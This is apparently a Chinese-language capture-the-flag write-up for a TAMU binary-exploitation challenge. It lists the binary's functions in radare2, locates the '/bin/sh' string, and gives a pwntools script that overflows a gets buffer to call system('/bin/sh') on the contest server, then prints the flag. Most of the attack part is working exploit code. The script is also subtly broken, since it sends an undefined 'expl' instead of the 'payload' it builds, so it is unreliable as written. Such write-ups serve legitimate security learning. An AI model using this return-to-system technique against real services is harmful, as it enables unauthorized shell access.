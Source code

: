 ```
0x080484c0    1 4            sym.__x86.get_pc_thunk.bx
0x080484d0    4 43           sym.deregister_tm_clones
0x08048500    4 53           sym.register_tm_clones
0x08048540    3 30           sym.__do_global_dtors_aux
0x08048560    4 43   -> 40   sym.frame_dummy
0x0804858b    1 25           sym.ls
0x080485a4    1 25           sym.cal
0x080485bd    1 25           sym.pwd
0x080485d6    1 25           sym.whoami
0x080485ef   17 404          sym.reduced_shell
0x08048783    2 37   -> 44   sym.main
0x080487b0    4 93           sym.__libc_csu_init
0x08048810    1 2            sym.__libc_csu_fini
0x08048814    1 20           sym._fini
[0x08048490]> 
```

经过分析，同样发现还有gets函数，可以同理，但是重点是寻找“/bin/sh”地址，系统肯定在某个地方存储了这个字符串

利用`/`寻找字符串:
```
[0x08048490]> / /bin/sh
Searching 7 bytes from 0x08048000 to 0x0804a048: 2f 62 69 6e 2f 73 68 
Searching 7 bytes in [0x8048000-0x804a048]
hits: 1
0x0804a038 hit1_0 .fv/bin/shGCC: (Ubuntu 5..
 
```
在地址0x0804a038字符串"/bin/sh"已被找到

编写脚本

```
from pwn import * 
p = remote("pwn.ctf.tamu.edu", 4324)
 
p.recvuntil("Input> ")
 
addr_binsh  = 0x804a038
addr_system = 0x8048430 # system@plt
 
payload = "A" * 32
payload += p32(addr_system)
payload += "ABCD"
payload += p32(addr_binsh)

p.sendline(expl)
p.interactive()
```
运行该脚本会调用system("/bin/sh")一个shell：

<img src="/images/posts/TAMU pwn/1519645674166.png" height="300" width="600"> 

flag：gigem{b4ck_70_7h3_l1br4ry}